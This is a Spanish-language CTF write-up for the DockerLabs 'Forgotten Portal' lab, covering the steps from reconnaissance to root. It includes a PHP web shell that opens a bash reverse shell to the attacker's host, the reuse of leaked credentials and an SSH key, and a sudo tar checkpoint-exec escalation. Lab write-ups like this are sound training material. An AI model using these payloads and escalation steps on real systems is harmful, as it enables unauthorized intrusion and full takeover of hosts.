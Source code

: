 # forgotten\_portal

Máquina "Forgotten Portal" de [DockerLabs](https://dockerlabs.es)

Autor: [Cyberland](https://cyberlandsec.com/)

Dificultad: Medio

![Dockerlabs](./images/forgotten_portal/img/dock.png)

## Reconocimiento

Vamos a empezar con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Wed Dec  4 09:53:02 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-12-04 09:53:03 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:4a:16:27:ad:b8:0b:aa:28:64:b0:10:3b:be:79:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPqFV+NfpZGuIDsCCv9gPbHdmIQCjA9+nAnq29cKRh9lI+rnshZyqxyh9JssAFr8o+FNZejMlW/A0WBpMx09uJ8=
|   256 0b:0f:11:d6:5a:e9:f5:25:c8:17:0d:71:c1:29:c9:53 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOq/ECOx7kvdWUnIws1W68bb7yWOLN1ciw36P4DqfMa4
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: CyberLand Labs - Innovaci\xC3\xB3n en Ciberseguridad
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  4 09:53:11 2024 -- 1 IP address (1 host up) scanned in 8.80 seconds
```

Tenemos 2 puertos abiertos:

`80: Apache httpd 2.4.58`

`22: OpenSSH 9.6p1`

y al parecer estamos frente a una máquina ubuntu.

SI vamos al puerto 80 desde el navegador, veremos una web sin nada interesante. Pero si a esta le revisamos el código fuente, vermos la siguiente nota:

![nota](./images/forgotten_portal/img/nota.png)

Por lo que si vamos a `m4ch1n3_upload.html`, veremos un formulario para subir archivos.

## Intrusión

Ahora nos creamos un script en php en nuestra máquina el cual contenga lo siguiente:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

una vez creado, lo subimos.

Ahora solo nos queda escuchar con netcat por el puerto 443 (`sudo nc -nlvp 443`) y entrar a el archivo que subimos desde la web, una vez entremos nos llegará la shell.

## Escalada De Privilegios

#### www-data

Si vamos a /var/www/html, veremos un archivo llamado `access_log`, el cual en una parte dice lo siguiente:

```css
[2023-11-21 19:36:22] INFO: Clave codificada generada: YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3
```

y si pasamos `YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3` a texto (es base64) nos dice lo siguiente:

```css
alice:s3cr3tp@ssw0rd^487
```

Por lo que ya tenemos credenciales para alice.

#### Alice

Si vamos a la home de alice, veremos un reporte en una carpeta llamada "incidents", al leerlo nos dice de manera resumida, que en la home de todos los usuarios, hay un id\_rsa, el cual es de bob y tambien nos da la contraseña del archivo:

```css
**Passphrase del Usuario `bob`:** `cyb3r_s3curity`
```

por lo que vamos a `~/.ssh/` y copiamos el archivo id\_rsa a nuestra maquina local, luego le damos permisos de ejecución (chmod 600 id\_rsa) y nos conectamos como bob:

```css
ssh -i id_rsa bob@172.17.0.2
```

#### Bob

Siendo bob, podemos ejecutar como root el binario tar, por lo que luego de buscar, veo que podemos escalar a root ejecutando lo siguiente:

```css
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

#### Root

![root](./images/forgotten_portal/img/root.png)

Gracias por leer :)
